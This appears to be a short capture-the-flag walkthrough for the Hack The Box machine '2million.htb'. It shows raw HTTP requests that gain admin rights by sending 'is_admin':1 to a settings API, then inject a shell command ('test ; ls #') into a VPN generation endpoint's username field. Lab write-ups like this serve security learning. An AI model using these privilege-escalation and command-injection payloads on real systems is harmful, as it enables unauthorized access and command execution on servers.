 
How do i get admin ?

```
REQUEST

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=59lqbcc40a179abo6041fobaao
Connection: close
Content-Length: 80
Content-Type: application/json

{
"email":"test@test.com",
"loggedin":true,"username":"test","is_admin":1}

RESPONSE

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 28 Sep 2023 17:11:14 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 40

{"id":14,"username":"test","is_admin":1}

```



VULNERABILITY 

Command Injection

INPUT
```


POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=59lqbcc40a179abo6041fobaao
Connection: close
Content-Type:application/json
Content-Length: 37

{"username":"test ; ls #"

```